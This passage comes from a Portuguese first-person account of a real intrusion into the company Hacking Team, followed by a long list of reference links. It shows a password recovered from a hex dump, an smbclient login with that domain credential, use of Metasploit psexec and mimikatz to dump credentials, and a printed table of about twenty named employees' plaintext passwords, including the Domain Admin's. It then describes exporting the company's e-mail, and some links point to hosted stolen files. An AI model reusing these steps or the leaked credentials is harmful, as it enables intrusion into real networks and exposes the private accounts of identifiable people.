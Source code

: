 ~~~
_SC_BlackBerry MDS Connection Service
0000   16 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   62 00 65 00 73 00 33 00 32 00 36 00 37 00 38 00    b.e.s.3.2.6.7.8.
0020   21 00 21 00 21 00 00 00 00 00 00 00 00 00 00 00    !.!.!...........
~~~

Usei proxychains[^57] com o servidor socks no dispositivo embutido e smbclient[^58] para verificar a senha:
~~~ 
proxychains smbclient '//192.168.100.51/c$' -U 'hackingteam.local/besadmin%bes32678!!!' 
~~~

Funcionou! A senha para besadmin ainda era válida, e um administrador local. Eu usei meu proxy e o psexec_psh do metasploit[^59] para obter uma sessão do meterpreter. Em seguida, migrei para um processo de 64 bits, executei "load kiwi"[^60], "creds_wdigest" e recebi um monte de senhas, incluindo o Domain Admin:

~~~
HACKINGTEAM  BESAdmin       bes32678!!!
HACKINGTEAM  Administrator  uu8dd8ndd12!
HACKINGTEAM  c.pozzi        P4ssword      <---- lol excelente sysadmin
HACKINGTEAM  m.romeo        ioLK/(90
HACKINGTEAM  l.guerra       4luc@=.=
HACKINGTEAM  d.martinez     W4tudul3sp
HACKINGTEAM  g.russo        GCBr0s0705!
HACKINGTEAM  a.scarafile    Cd4432996111
HACKINGTEAM  r.viscardi     Ht2015!
HACKINGTEAM  a.mino         A!e$$andra
HACKINGTEAM  m.bettini      Ettore&Bella0314
HACKINGTEAM  m.luppi        Blackou7
HACKINGTEAM  s.gallucci     1S9i8m4o!
HACKINGTEAM  d.milan        set!dob66
HACKINGTEAM  w.furlan       Blu3.B3rry!
HACKINGTEAM  d.romualdi     Rd13136f@#
HACKINGTEAM  l.invernizzi   L0r3nz0123!
HACKINGTEAM  e.ciceri       2O2571&2E
HACKINGTEAM  e.rabe         erab@4HT!
~~~

[^56]: https://github.com/Neohapsis/creddump7

[^57]: http://proxychains.sourceforge.net/

[^58]: https://www.samba.org/

[^59]: http://ns2.elhacker.net/timofonica/manuales/Manual_de_Metasploit_Unleashed.pdf

[^60]: https://github.com/gentilkiwi/mimikatz

## 11 - Baixando o e-mail

Com a senha do Domain Admin, tenho acesso ao e-mail, coração da empresa. Como cada passo que dou há uma chance de ser detectado, começo a baixar o e-mail antes de continuar a explorar. O Powershell facilita isso[^61]. Curiosamente, encontrei um bug no manuseio de datas do Powershell. Depois de baixar os e-mails, demorei mais algumas semanas para obter acesso ao código-fonte e tudo mais, então eu voltava de vez em quando para baixar os novos e-mails. O servidor era italiano, com datas no formato day/month/year. Eu usei:
~~~
-ContentFilter {(Received -ge '05/06/2015') -or (Sent -ge '05/06/2015')}
~~~


[^1]: http://pastebin.com/raw.php?i=cRYvK4jb
[^2]: https://en.wikipedia.org/wiki/Citizens%27_Commission_to_Investigate_the_FBI
[^3]: http://www.aljazeera.com/news/2015/09/algerian-hacker-hero-hoodlum-150921083914167.html
[^4]: https://securelist.com/files/2015/02/Carbanak_APT_eng.pdf
[^5]: http://madrid.cnt.es/noticia/consideraciones-sobre-el-ataque-informatico-a-gamma-group
[^6]: http://www.animalpolitico.com/2015/07/el-gobierno-de-puebla-uso-el-software-de-hacking-team-para-espionaje-politico/
[^7]: http://www.prensa.com/politica/claves-entender-Hacking-Team-Panama_0_4251324994.html
[^8]: http://www.24-horas.mx/ecuador-espio-con-hacking-team-a-opositor-carlos-figueroa/
[^9]: https://citizenlab.org/2012/10/backdoors-are-forever-hacking-team-and-the-targeting-of-dissent/
[^10]: https://citizenlab.org/2014/02/hacking-team-targeting-ethiopian-journalists/
[^11]: https://citizenlab.org/2015/03/hacking-team-reloaded-us-based-ethiopian-journalists-targeted-spyware/
[^12]: http://focusecuador.net/2015/07/08/hacking-team-rodas-paez-tiban-torres-son-espiados-en-ecuador/
[^13]: http://www.pri.org/stories/2015-07-08/these-ethiopian-journalists-exile-hacking-team-revelations-are-personal
[^14]: https://theintercept.com/2015/07/07/leaked-documents-confirm-hacking-team-sells-spyware-repressive-countries/
[^15]: http://www.wired.com/2013/06/spy-tool-sold-to-governments/
[^16]: http://www.theregister.co.uk/2015/07/13/hacking_team_vietnam_apt/
[^17]: http://www.ilmessaggero.it/primopiano/cronaca/yara_bossetti_hacking_team-1588888.html
[^18]: http://motherboard.vice.com/en_ca/read/hacking-team-founder-hey-fbi-we-can-help-you-crack-the-dark-web
[^19]: https://www.torproject.org/
[^20]: https://info.securityinabox.org/es/chapter-4
[^21]: https://www.whonix.org/
[^22]: https://tails.boum.org/
[^23]: https://www.qubes-os.org/doc/privacy/torvm/
[^24]: https://trac.torproject.org/projects/tor/wiki/doc/TransparentProxy
[^25]: https://www.whonix.org/wiki/Comparison_with_Others
[^26]: https://blog.torproject.org/blog/tor-security-advisory-relay-early-traffic-confirmation-attack/
[^27]: http://www.wifislax.com/
[^28]: https://www.torproject.org/docs/bridges.html.en
[^29]: http://www.documentcloud.org/documents/1342115-timeline-correlation-jeremy-hammond-and-anarchaos.html
[^30]: http://www.nytimes.com/2015/12/27/business/dealbook/the-unsung-tax-agent-who-put-a-face-on-the-silk-road.html
[^31]: http://web.archive.org/web/20140610083726/http://www.soulblack.com.ar/repo/papers/hackeando_con_google.pdf
[^32]: http://ha.ckers.org/fierce/
[^33]: https://github.com/laramies/theHarvester
[^34]: https://bitbucket.org/LaNMaSteR53/recon-ng
[^35]: https://nmap.org/
[^36]: https://zmap.io/
[^37]: https://github.com/robertdavidgraham/masscan
[^38]: http://www.morningstarsecurity.com/research/whatweb
[^39]: http://blindelephant.sourceforge.net/
[^40]: https://github.com/laramies/metagoofil
[^41]: https://www.elevenpaths.com/es/labstools/foca-2/index.html
[^42]: http://www.hacknbytes.com/2016/01/apt-pentest-con-empire.html
[^43]: http://blog.cobaltstrike.com/2015/09/30/advanced-threat-tactics-course-and-notes/
[^44]: http://www.netcomunity.com/lestertheteacher/doc/ingsocial1.pdf
[^45]: http://pastebin.com/raw.php?i=cRYvK4jb
[^46]: http://sourceforge.net/projects/joomscan/
[^47]: http://www.devttys0.com/
[^48]: https://docs.google.com/presentation/d/1-mtBSka1ktdh8RHxo2Ft0oNNlIp7WmDA2z9zzHpon8A
[^49]: https://www.shodan.io/search?query=product%3Amongodb
[^50]: https://community.rapid7.com/community/metasploit/blog/2012/06/11/cve-2012-2122-a-tragically-comedic-security-flaw-in-mysql
[^51]: http://archives.neohapsis.com/archives/vulnwatch/2004-q3/0001.html
[^52]: http://downloads.securityfocus.com/vulnerabilities/exploits/hoagie_mysql.c
[^53]: http://archives.neohapsis.com/archives/bugtraq/2000-02/0053.html
[^54]: https://ht.transparencytoolkit.org/audio/
[^55]: https://ht.transparencytoolkit.org/FileServer/FileServer/Hackingteam/InfrastrutturaIT/Rete/infrastruttura%20ht.pdf
[^62]: https://adsecurity.org/?page_id=1821
[^63]: https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp
[^64]: https://github.com/PowerShellEmpire/Empire/blob/master/data/module_source/privesc/Invoke-BypassUAC.ps1
[^65]: https://technet.microsoft.com/en-us/sysinternals/psexec.aspx
[^66]: https://sourceforge.net/projects/winexe/
[^67]: https://www.rapid7.com/db/modules/exploit/windows/smb/psexec_psh
[^68]: http://www.powershellempire.com/?page_id=523
[^69]: http://blog.cobaltstrike.com/2014/04/30/lateral-movement-with-high-latency-cc/
[^70]: https://github.com/byt3bl33d3r/pth-toolkit
[^71]: https://github.com/CoreSecurity/impacket/blob/master/examples/wmiexec.py
[^72]: https://www.trustedsec.com/june-2015/no_psexec_needed/
[^73]: http://www.powershellempire.com/?page_id=124
[^74]: http://www.maquinasvirtuales.eu/ejecucion-remota-con-powershell/
[^75]: https://adsecurity.org/?p=2277
[^76]: https://www.secureworks.com/blog/where-you-at-indicators-of-lateral-movement-using-at-exe-on-windows-7-systems
[^77]: https://github.com/PowerShellEmpire/Empire/blob/master/lib/modules/lateral_movement/new_gpo_immediate_task.py
[^78]: https://www.indetectables.net/viewtopic.php?p=211165
[^79]: https://adsecurity.org/?page_id=1821
[^80]: https://github.com/bidord/pykek
[^81]: https://adsecurity.org/?p=676
[^82]: http://www.hackplayers.com/2014/12/CVE-2014-6324-como-validarse-con-cualquier-usuario-como-admin.html
[^83]: https://github.com/n1nj4sec/pupy
[^84]: http://www.powershellempire.com/?page_id=273
[^85]: https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-Runas.ps1
[^86]: http://blog.cobaltstrike.com/2014/05/14/meterpreter-kiwi-extension-golden-ticket-howto/
[^87]: http://www.harmj0y.net/blog/empire/nothing-lasts-forever-persistence-with-empire/
[^88]: http://www.hexacorn.com/blog/category/autostart-persistence/
[^89]: https://blog.netspi.com/tag/persistence/
[^90]: https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerView
[^91]: http://www.harmj0y.net/blog/tag/powerview/
[^92]: http://www.harmj0y.net/blog/powershell/veil-powerview-a-usage-guide/
[^93]: http://www.harmj0y.net/blog/redteaming/powerview-2-0/
[^94]: http://www.harmj0y.net/blog/penetesting/i-hunt-sysadmins/
[^95]: http://www.slideshare.net/harmj0y/i-have-the-powerview
[^96]: https://adsecurity.org/?p=2535
[^97]: https://www.youtube.com/watch?v=rpwrKhgMd7E
[^98]: https://github.com/mubix/netview
[^99]: https://blogs.msdn.microsoft.com/rcormier/2013/03/30/how-to-perform-bulk-downloads-of-files-in-sharepoint/
[^100]: https://adsecurity.org/?page_id=41
[^101]: http://www.darkoperator.com/?tag=Active+Directory
[^102]: https://github.com/PowerShellMafia/PowerSploit
[^103]: https://github.com/samratashok/nishang
[^104]: http://hacking.technology/Hacked%20Team/FileServer/FileServer/Hackingteam/InfrastrutturaIT/
[^105]: http://www.hammer-software.com/wmigphowto.shtml
[^106]: https://www.trustedsec.com/june-2015/no_psexec_needed/
[^107]: https://gallery.technet.microsoft.com/scriptcenter/PowerShell-Credentials-d44c3cde
[^108]: http://pwnwiki.io/#!presence/windows/find_files.md
[^109]: http://archive.is/TbaPy
[^110]: http://hacking.technology/Hacked%20Team/c.pozzi/screenshots/
[^111]: http://hacking.technology/Hacked%20Team/c.pozzi/Desktop/you.txt
[^112]: http://hacking.technology/Hacked%20Team/c.pozzi/credentials/
[^113]: http://hacking.technology/Hacked%20Team/c.pozzi/Truecrypt%20Volume/Login%20HT.txt
[^114]: http://seclists.org/fulldisclosure/2014/Oct/78
[^115]: https://twitter.com/coracurrier/status/618104723263090688
[^116]: http://andres.delgado.ec/2016/01/15/el-miedo-de-vigilar-a-los-vigilantes/
[^117]: https://twitter.com/CthulhuSec/status/619459002854977537